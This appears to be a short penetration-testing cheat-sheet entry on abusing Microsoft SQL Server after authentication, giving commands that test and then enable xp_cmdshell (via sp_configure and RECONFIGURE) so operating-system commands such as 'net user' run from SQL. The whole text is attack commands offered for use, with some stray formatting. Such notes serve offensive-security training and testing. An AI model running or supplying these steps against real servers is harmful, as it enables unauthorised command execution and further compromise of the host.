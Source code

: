 # SQL

After successfully authenticating to a SQL Server \
It is worth a shot to verify if xp\_cmdshell has been previously activated with:\


```
EXEC xp_cmdshell 'net user';
```

``

If xp\_cmdshell has not been activated, run the below commands to activate and utilize Windows XP cmd commands within SQL:

<pre><code># The command below enables sp_configure 

<strong>EXEC sp_configure 'show advanced options', 1;</strong></code></pre>

```
RECONFIGURE; sp_configure; 
```

```
message EXEC sp_configure 'xp_cmdshell', 1;
```

```
RECONFIGURE;
```
